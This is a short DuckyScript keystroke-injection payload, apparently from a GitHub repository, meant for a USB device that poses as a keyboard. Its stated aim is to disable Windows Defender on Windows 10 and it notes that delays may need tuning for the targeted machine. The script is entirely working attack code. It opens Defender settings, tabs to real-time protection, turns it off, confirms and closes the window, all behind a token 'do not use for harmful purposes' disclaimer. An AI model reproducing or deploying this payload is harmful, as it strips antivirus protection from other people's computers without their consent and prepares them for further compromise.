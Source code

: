 REM Author      : https://github.com/TheTeasel
REM Description : Disable Windows Defender on Windows 10
REM             : You may want to change the DELAY depending on the speed of the targeted machine
REM             PLEASE DO NOT USE THIS SCRIPT FOR HARMFUL PURPOSES
DELAY 1000
REM Open Windows Defender settings
CTRL ESC
DELAY 1000
STRING Windows Defender Settings
DELAY 100
ENTER
REM Navigate to realtime protection and disable it
DELAY 1000
ENTER
DELAY 1000
TAB
DELAY 1000
TAB
DELAY 250
TAB
DELAY 250
TAB
DELAY 250
TAB
ENTER
DELAY 1000
SPACE
DELAY 1000
LEFT
DELAY 500
ENTER
REM Close Settings
DELAY 500
ALT F4
DELAY 100
ALT F4
